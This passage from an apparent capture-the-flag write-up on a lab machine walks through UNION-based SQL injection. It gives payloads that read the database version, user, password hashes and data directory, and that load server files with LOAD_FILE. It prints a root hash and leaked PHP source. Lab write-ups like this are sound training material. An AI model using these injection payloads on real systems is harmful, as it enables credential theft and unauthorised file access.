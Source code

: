 ![[Bankrobber-18.png]]

There are three columns, and the value in 1 `ID` and 2 `User` are returned to me. I can get the version and current user:

*version*

```sql
1' UNION SELECT 1,@@version,3;-- -
```

![[Bankrobber-20.png]]

*User*

```sql
1' UNION SELECT 1,system_user(),3;-- -
```

![[Bankrobber-21.png]]


*Check password*

```sql
1' UNION SELECT user,password,3 from mysql.user;-- -
```

![[Bankrobber-24.png]]

we will know the root password hash is:

```txt
*F435725A173757E57BD36B09048B8B610FF4D0C4
```

*Data Directory*

```sql
1' UNION SELECT 1,@@datadir,3;-- -
```

![[Bankrobber-23.png]]

we will get `C:\xampp\mysql\data\` will be database directory.

*Load File*

index.php
```sql
1' UNION SELECT 1,LOAD_FILE('c:\\xampp\\htdocs\\index.php'),3;-- -
```

![[Bankrobber-25.png]]

```php
<table width='90%'><tr><th>ID</th><th>User</th></tr>
		<tr>
		    <td>1</td>
		    <td>admin</td>
		 </tr>
		
		<tr>
		    <td>1</td>
		    <td><?php
error_reporting(0);
$username = base64_decode(urldecode($_COOKIE['username']));
$password = base64_decode(urldecode($_COOKIE['password']));

if(!empty($username) && !empty($password)){
	$redir = "user";
	if($username == "admin"){
```